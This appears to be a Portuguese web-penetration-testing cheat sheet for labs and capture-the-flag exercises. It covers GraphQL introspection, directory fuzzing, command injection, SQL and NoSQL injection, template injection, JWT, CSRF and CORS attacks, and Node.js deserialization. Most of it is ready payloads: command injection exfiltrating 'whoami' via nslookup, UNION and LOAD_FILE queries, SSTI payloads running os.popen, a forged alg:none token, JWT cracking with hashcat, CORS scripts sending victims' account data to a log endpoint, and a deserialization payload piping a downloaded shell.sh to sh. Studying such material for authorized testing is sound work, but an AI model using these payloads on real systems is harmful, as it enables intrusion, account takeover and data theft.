

Uma trilha para observar como uma aplicação recebe dados, toma decisões e devolve respostas. Comece pelo comportamento normal; depois compare cada entrada, método e contexto de execução.
01 / Primeiro, entenda o fluxo
Procure a documentação da API. Compare métodos HTTP, códigos de resposta, autenticação e diferenças entre acessos anônimos e autenticados. Salve uma requisição válida antes de alterar parâmetros.
Em GraphQL, comece pela introspecção: __schema mostra tipos, campos e argumentos quando esse recurso está habilitado. A consulta completa está logo abaixo, em “Full introspect query”.
query { __schema { queryType { name } types { name } } }
Checklist de API
- Busque pela documentação da API
- Teste todos os métodos HTTP
Consulta completa de introspecção
query IntrospectionQuery {
__schema {
queryType {
name
}
mutationType {
name
}
subscriptionType {
name
}
types {
...FullType
}
directives {
name
description
args {
...InputValue
}
}
}
}
fragment FullType on __Type {
kind
name
description
fields(includeDeprecated: true) {
name
description
args {
...InputValue
}
type {
...TypeRef
}
isDeprecated
deprecationReason
}
inputFields {
...InputValue
}
interfaces {
...TypeRef
}
enumValues(includeDeprecated: true) {
name
description
isDeprecated
deprecationReason
}
possibleTypes {
...TypeRef
}
}
fragment InputValue on __InputValue {
name
description
type {
...TypeRef
}
defaultValue
}
fragment TypeRef on __Type {
kind
name
ofType {
kind
name
ofType {
kind
name
ofType {
kind
name
}
}
}
}
02 / Descoberta de rotas e parâmetros
Podemos passar um arquivo para o ffuf para ele fazer os requests. Basta pegar a request, adicionar FUZZ onde queremos testar e comparar as respostas. Feroxbuster ajuda a descobrir diretórios e arquivos em aplicações de laboratório.
ffuf -request req.txt -w wordlist.txt
feroxbuster --url https://app.exemplo.test/ -w caminhos.txt -t 10 -C 400,500Observe tamanho, status e tempo de resposta. Ajuste a taxa para não derrubar o serviço durante um teste autorizado.
03 / Injeção de comandos
Os separadores &, &&, |, ||, ; e quebras de linha podem alterar a forma como um shell interpreta uma entrada. O contexto importa: aspas, filtros e a chamada real do programa mudam o resultado.
valor; id
valor && whoami
valor | wc -cSeparadores de comandos
- principais
&
&&
|
||
;
0x0a
\n
`command`
- payloads
|| nslookup `whoami`.dadadadadadadada.com||
04 / SQL Injection
Confirme a mudança de resposta, identifique o banco, mapeie tabelas e colunas relevantes e demonstre o impacto com o mínimo de dados necessário. Para acelerar a validação, use o sqlmap com uma requisição salva.
sqlmap -r req.txt --technique=BEUSTQB = boolean-based blind; E = error-based; U = UNION; S = stacked queries; T = time-based; Q = inline queries. A opção correta do sqlmap é --technique no singular.
information_schema ajuda a mapear o esquema; group_concat agrega resultados. LOAD_FILE só funciona quando a conta do banco e a configuração permitem leitura de arquivos.
UNION e leitura do esquema
group concat infomation schema
# visualizar bancos de dados
'union select group_concat(schema_name) from information_schema.schemata -- -
# listar tabelas e colunas
'union select group_concat(TABLE_NAME, ":",COLUMN_NAME, "\n") from information_schema.columns where TABLE_SCHEMA like 'database_name'
# ver conteudo
'union select group_concat(column_name, "\n") from database_name.table_name -- -
ler arquivos
union select LOAD_FILE('/var/www/html/index.php')-- -
Técnicas do sqlmap
Technics
ex: sqlmap -r req.txt --technics=BEUSTQ
- B: Boolean-based blind
- E: Error-based
- U: Union query-based
- S: Stacked queries
- T: Time-based blind
- Q: Inline queries
05 / NoSQL Injection
Se a aplicação transforma JSON recebido em consulta, operadores como $regex e $ne podem alterar a lógica. Compare uma condição verdadeira com outra falsa e observe diferenças de resposta. O NoSQLmap é uma opção para automatizar parte dos testes.
{"username":{"$regex":"admin.*"},"password":{"$ne":""}}Compare respostas e valide como o servidor transforma os tipos recebidos. Use esquemas de entrada que impeçam operadores inesperados.
Operadores e condições
'||1||'
{"username":{"$regex":"admin.*"},"password":{"$ne":""}}
/?user=wiener' && '1'=='2'
/?user=wiener' && '1'=='1'
/?user=administrator' && this.password.length < 10 || 'a' == 'b'
/?user=administrator' && this.password[0] == 'a
06 / SSTI e execução no servidor
SSTI ocorre quando a entrada é avaliada pelo mecanismo de templates. Comece com uma expressão aritmética simples; se ela for calculada, identifique a engine antes de testar outros objetos.
{{7*7}}
${7*7}
{% 7 * 7 %}Não misture sintaxes: cada engine tem regras próprias. Se houver avaliação, identifique a engine e os objetos disponíveis antes de concluir o impacto. Nunca renderize entrada não confiável como template.
Em Node.js, fs permite ler arquivos e child_process executa processos. Esses recursos ajudam a medir o impacto quando uma falha já oferece execução de código.
Sintaxes de template
{{ ''.class.mro[1].subclasses() }}
{{ ''.class.mro[1].subclasses()[84]().load_module('os').popen('id').read() }}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
<% import os; test=os.popen('id').read() %>${test}
${self.module.cache.util.os.popen("id").read()}
{% 7 * 7 %}
{{7*7}}
${7*7}
08 / JWT, CSRF e CORS
JWT
Se o servidor aceitar um JWT com alg: none, um token sem assinatura pode passar pela verificação. O ponto final continua presente para representar a assinatura vazia. Valide também emissor, audiência e expiração.
Para avaliar segredos JWT fracos em laboratório, o Hashcat usa o modo 16500. Segredos de alta entropia e rotação controlada reduzem o risco.
CSRF
Em CSRF, tente reproduzir a ação a partir de outra origem. Verifique token anti-CSRF, cookies SameSite e confirmação para ações sensíveis.
CORS
Em CORS, confira se a origem é refletida e se null é aceito. Com credenciais liberadas, uma origem não confiável pode ler respostas sensíveis.
JWT com alg: none
para explorar essa vulnerabilidade, precisamos mudar o paramentro “alg” para none.
lembre-se tbm de remover a assinatura do token.
token com “alg: none” mas ainda com a assinatura:
eyJraWQiOiJkMzFhNWVjYy00YTcwLTQ1NTAtYTNkZC1jZDRlNTBjOTc5MzciLCJhbGciOiJub25lIn0%3d.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcxNzAwNTcxNSwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.j1z5PNj4UeduLuIWOpep2FtGsXrH9yNxXkioeXf3CrTHRwCYHhKKgQb88PVfWcJ7b5hVbnODWioFr346eOGZDZukg2CHYNe0VwDfjdfd4VNo9w3oDl0xICptGYSlpZvSdOp1A4raT-5iwvRTDp5-xdhfHSBdU5StqYqwt9uJCiHYbWksmW5k6UgyPF_pG62Y_AqyZ5YXhO40hzHg6azcBgBDXq73ES7qGyLHRzG7YU3Y78xl1k6uDlfkcjW-I5VMjJBhGKBvmsUfo4w6ZXkW_0CjuzZ2cxA9cxGAAcPl1k2EWR1UaXoPKavc_wkPBOWAS2GQZw9ng446YKg3idX6gA
token pronto para o bypass: (alg : none e sem a assinatura):
eyJraWQiOiJkMzFhNWVjYy00YTcwLTQ1NTAtYTNkZC1jZDRlNTBjOTc5MzciLCJhbGciOiJub25lIn0%3d.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcxNzAwNTcxNSwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.
mesmo o algoritimo sendo definido como none. precisa do ponto “.” no final do token.
Hashcat para segredo JWT
- hashcat
hashcat -a 0 -m 16500 <jwt> <wordlist>
Formulário de teste
- common code
<html>
<body>
<form action="https://app.exemplo.test/email/change" method="POST">
<input type="hidden" name="email" value="pwned@evil-user.net" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
Origem refletida e origem null
CORS vulnerability with basic origin reflection
<script>
var xhr = new XMLHttpRequest();
var url = "https://app.exemplo.test"
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE){
fetch("/log?key=" + xhr.responseText)
}
}
xhr.open('GET', url + "/accountDetails", true);
xhr.withCredentials = true;
xhr.send(null)
</script>
- cors null origin
<html>
<body>
<iframe style="display: none;" sandbox="allow-scripts" srcdoc="
<script>
var xhr = new XMLHttpRequest();
var url = 'https://app.exemplo.test'
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch('http://127.0.0.1:5555/log?key=' + xhr.responseText)
}
}
xhr.open('GET', url + '/accountDetails', true);
xhr.withCredentials = true;
xhr.send(null);
</script>"></iframe>
</body>
</html>
09 / Outras superfícies web
- File Upload: validar tipo real, extensão, armazenamento e execução no servidor.
- Path Traversal: investigar normalização de caminhos e acesso fora do diretório esperado.
- HTTP Request Smuggling: divergência de parsing entre proxy e servidor.
- Insecure Deserialization: objetos não confiáveis recriados com efeitos inesperados.
- Prototype Pollution: chaves controladas que alteram protótipos JavaScript.
- Race Conditions: operações concorrentes que quebram invariantes de negócio.
- Remote Code Execution: impacto de uma falha, não uma categoria única de entrada.
Use estes itens como checklist de triagem. Para cada tecnologia, identifique primeiro o ponto de entrada, a transformação da entrada e o impacto observável.
Leitura e execução em Node.js
Read file
require('fs').readFileSync('./flag.txt').toString();
Execute command
_$$ND_FUNC$$_function (){require('child_process').execSync('curl http://127.0.0.1:8000/shell.sh | sh').toString();